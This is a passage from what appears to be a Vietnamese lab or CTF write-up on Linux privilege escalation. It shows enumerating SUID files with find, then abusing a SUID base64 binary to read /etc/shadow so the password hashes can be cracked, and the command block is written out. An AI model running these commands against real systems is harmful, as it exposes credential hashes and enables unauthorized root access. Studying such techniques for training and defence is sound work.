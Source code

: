         ![image.png](/img/image%204.png)
        
        → `/` Tìm tất cả các tệp có loại `-type f` file
        
        → Các tệp có `-perm -04000` tức là bit **SUID** hoặc **SGID**
        
- Lợi dụng **SUID** để leo thang đặc quyền
    - Đọc tệp `/etc/shadow`  để dò mật khẩu
        
        ![image.png](/img/image%205.png)
        
        → Thông qua câu lệnh `find` vừa liệt kê các tệp có bit **SUID**, trong đó có **base64**
        
        ![image.png](/img/image%206.png)
        
        → Tiến hành khai thác leo thang đặc quyền
        
        ```bash
        LFILE=/etc/shadow
        base64 "$LFILE" | base64 --decode
        ```
        